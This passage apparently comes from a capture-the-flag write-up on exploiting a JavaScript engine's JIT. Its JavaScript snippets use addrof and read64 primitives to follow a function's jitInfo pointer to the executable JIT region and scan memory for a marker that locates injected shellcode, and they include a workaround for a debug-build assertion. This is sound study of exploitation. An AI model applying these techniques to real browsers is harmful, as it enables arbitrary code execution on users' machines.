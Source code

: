 And as we can see, we found not only our marker but also the shellcode we intended in the correct order on a read/execute page.

After having solved the “shellcode problem” we still need a way to dynamically locate it (since it’s somewhere at a changing offset from where the jitInfo pointer points) and transfer execution to it. Finding the location is not that difficult as we can use our read primitive to scan the memory until we find the marker:

```
...
shellcode_addr = addrof(shellcode);
console.log("[>] Function @ " + shellcode_addr.toString(16));
 
// Get the jetInfo pointer in the JSFunction object (JSFunction.u.native.extra.jitInfo_)
jitinfo = read64(shellcode_addr + 0x28n);
console.log("[>] Jitinfo @ " + jitinfo.toString(16));
 
// Dereference pointer to get RX Region
rx_region = read64(jitinfo & 0xffffffffffffn);
console.log("[>] Jit RX @ " + rx_region.toString(16));
 
 
// Iterate to find magic value (since the shellcode is not at the start of the rx_region)
it = rx_region; // Start from the RX region
found = false
for(i = 0; i < 0x800; i++) {
    data = read64(it);
    if(data == 0x41414141n) {
    it = it + 8n;  // 8 byte offset to account for magic value
    found = true;
    break;
    }
    it = it + 8n;
}
if(!found) {
    console.log("[-] Failed to find Jitted shellcode in memory");
}
```

There is one problem here – if you run it in the debug version it fails:

```
Assertion failure: !cx->nursery().isInside(ptr)
```

When running release it does however work. Debug adds some assertions to make sure nothing funky is going on – so most of the time it’s a good idea to start with the debug version but switch to release at some point. In this case, the challenge itself is however also running in debug mode so we will have to fix our exploit to work around that! What I noticed other people are doing to get around this is essentially looping until the shellcode pointer changes (often with some additional logic that didn’t appear to be required) – I have no idea why this is required but it works (please let me know!). So what we can add is a simple loop that waits for that change to occur:

```
shellcode_addr = addrof(shellcode);   
while(shellcode_addr == addrof(shellcode)){
        // just block until we get the updated addr 
}
shellcode_addr = addrof(shellcode);
```
